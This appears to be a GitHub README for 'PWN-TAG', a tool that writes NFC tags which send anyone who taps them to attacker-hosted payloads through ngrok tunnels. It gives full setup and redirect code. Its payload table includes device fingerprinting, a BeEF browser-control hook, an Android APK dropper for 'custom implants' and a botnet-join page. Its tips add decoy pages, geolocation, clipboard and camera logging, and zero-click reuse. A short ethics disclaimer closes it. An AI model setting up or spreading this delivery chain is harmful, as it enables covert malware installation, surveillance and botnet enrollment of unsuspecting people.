 # PWN-TAG  
_"tag to pwn"_ — NFC payload delivery system for social engineering, red team ops, and mobile testing.

PWN-TAG lets you write NFC tags that trigger live payloads on mobile devices — from fingerprinting to botnet enrollment. Built for ethical hackers, educators, defenders, and curious minds.

---

## Branches

| Branch         | Purpose                                                                 |
|----------------|-------------------------------------------------------------------------|
| `main`         | Free-tier version using randomized ngrok URLs (requires tap + confirm) |
| `ngrok-pro`    | Paid ngrok version with static subdomains → enables **zero-click** payloads |

Switch branches like this:

```bash
git checkout ngrok-pro
````

---

##  What You Need

*  NFC tag stickers (\~\$10 for 25):
  [https://a.co/d/gl2XRV8](https://a.co/d/gl2XRV8)

*  NFC writer app (free):
  [https://apps.apple.com/app/id1252962749](https://apps.apple.com/app/id1252962749)

*  A Debian-based Linux system 

*  A [ngrok](https://ngrok.com/) account (free or paid)

---

##  Installation (Clone + Setup)

```bash
git clone https://github.com/ekomsSavior/PWN-TAG.git
cd PWN-TAG
```

# (Optional) Switch to pro version for static subdomain support

```bash
git checkout ngrok-pro
```
# Install Python dependencies

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install flask
```

## ngrok Setup

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/
```

Then authenticate your token: [https://ngrok.com/](https://ngrok.com/)

```bash
ngrok config add-authtoken <YOUR_NGROK_AUTH_TOKEN>
```


---

##  Usage (4 Terminal Workflow)

### Terminal 1 — Start Payload Server

```bash
python3 -m http.server 8080
```

This serves your payloads at `http://localhost:8080`

---

### Terminal 2 — Start ngrok Tunnel

```bash
ngrok http 8080
```

Copy the `https://...ngrok.app` URL — this becomes your **NFC tag link**.

---

### Terminal 3 — Edit Payload Redirector

```bash
nano payloads/test_shell.html
```

Update this line with your current ngrok URL:

```javascript
window.location.href = "https://your-ngrok-subdomain.ngrok.app/payloads/bot_joiner.html";
```

---

### Terminal 4 — Start Listener

```bash
python3 listener.py
```

Logs any device fingerprinting or interaction data sent by payloads.

---

## Write Your NFC Tag

Using your NFC writer app:

1. Tap **Write**
2. Add Record → **URL**
3. Paste something like:

```
https://pwn-tag.ngrok.app/payloads/test_shell.html
```

4. Tap “Write” to encode it

 Now when someone taps the tag, it opens the redirector → logs the device → delivers your payload.

---

##  Payload Options (Examples & Use Cases)

| Payload               | Path                       | Description                                                         |
| --------------------- | -------------------------- | ------------------------------------------------------------------- |
| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint (user agent, screen size, timezone) then redirects |
| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads a BEEF hook for browser control (if server is running)        |
| **APK Dropper**       | `payloads/spy.apk`         | Sends Android users a direct APK (custom implants welcome)          |
| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue Botnet join — connect, beacon, execute JS           |

---

##  Swapping Payloads (Beginner-Friendly)

1. Open `payloads/test_shell.html`
2. Change this line:

```javascript
window.location.href = "https://your-ngrok.ngrok.app/payloads/YOUR_FILE_HERE";
```

3. Example:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
```

 No need to rewrite the NFC tag if you're using a static domain — just update the file.

---

##  Pro Tips

*  Make multiple redirectors (`redirect_to_apk.html`, etc.)
*  Make `index.html` a 403 decoy or fake blog
*  Want geolocation? Use `https://ipinfo.io/json` in your JS
*  Want deep traps? Chain to `clipboard.js`, `camlog`, etc. before redirect
*  With static domains (`ngrok-pro`), your NFC tags are reusable forever

---

##  Ethical Usage

This tool is intended for **educational purposes, red-team ops, and ethical testing only**.
You are responsible for your actions. Do not use this on devices or individuals without consent.

